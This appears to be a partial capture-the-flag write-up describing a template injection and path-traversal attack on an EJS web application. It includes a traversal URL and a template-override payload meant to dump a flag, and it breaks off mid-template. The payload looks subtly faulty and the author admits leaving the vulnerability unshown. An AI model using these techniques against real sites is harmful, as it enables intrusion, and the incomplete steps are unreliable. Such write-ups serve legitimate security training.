 via SSTI (Server Side Template Injection) we can determine the vulnerability by following this endpoint `?id=../views/navbar.ejs`

  

![enter image description here](https://media.discordapp.net/attachments/1025465085117866045/1025730056762445904/phishing_email.png)

actually i forgot to take a screenshot of the SSTI but trust me it is vulnerable :DD
  
  let's continue after we determined the vuln exists next move is to get RCE 



but instead of this we will bruteforce the flag and print it all `articles pages`  

because we solved many challs like this so bruteforcing was our first choice.

by overriding the article file with following script

    `
    <!doctype  html>

        <html>

        <%- include('head.ejs') %>

        <body  class="text-dark bg-light">

        <%- include('navbar.ejs') %>

        <div  class="container my-5 px-5">

        <div  class="card mb-4">

        <div  class="card-header">

        <%= article.date %>

        </div>

        <div  class="card-body">

        <h5  class="card-title"><%= article.title %></h5>

        <p  class="card-text">

        <%= article.summary %>

        <hr  class="mb-0">

        <div  class="pre-line">

        <%= article.content %>

        </div>

        </p>

        </div>

        <div  class="card-footer text-muted">

            <% for (var i =0; i <=59;  i++ ) { %> 
                        <%#  flag[i] %>
            <% } %>
